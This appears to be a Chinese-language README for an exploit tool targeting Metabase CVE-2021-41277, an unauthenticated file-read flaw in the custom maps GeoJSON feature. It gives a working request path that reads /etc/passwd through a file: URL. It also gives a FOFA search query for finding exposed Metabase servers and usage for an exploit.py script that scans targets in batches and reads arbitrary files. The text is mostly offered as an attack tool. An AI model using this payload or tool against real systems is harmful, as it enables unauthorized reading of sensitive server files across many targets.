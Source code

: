 ##  漏洞简介 ##
Metabase是美国Metabase公司的一个开源数据分析平台。

Metabase 中存在信息泄露漏洞，该漏洞源于产品的 admin-＞settings-＞maps-＞custom maps-＞add a map 操作缺少权限验证。攻击者可通过该漏洞获得敏感信息。

CNNVD编号：CNNVD-202111-1565
危害等级： 超危
CVE编号： CVE-2021-41277

## 漏洞路径 ##
```text
"{{BaseURL}}/api/geojson?url=file:/etc/passwd"
```
![](images/1.png)

## fofa搜索语法 ##
```text
app="Metabase" 
```

## 工具帮助 ##
```text
Example:
python exploit.py -u <url> -p default #默认读取/etc/passwd
python exploit.py -f <filepath> -p default #批量检测，默认读取/etc/passwd
python exploit.py -u <url> -p /porc/version #读取指定文件
python exploit.py -f <filepath> -p /proc/version #批量检测，读取指定文件

Usage: exploit.py [options]

Options:
  -h, --help  show this help message and exit
  -u URL      单个检测url
  -f FILE     批量检测
  -p PATH     指定要读取的文件路径
```
![](images/2.png)

![](images/3.png)

![](images/4.png)
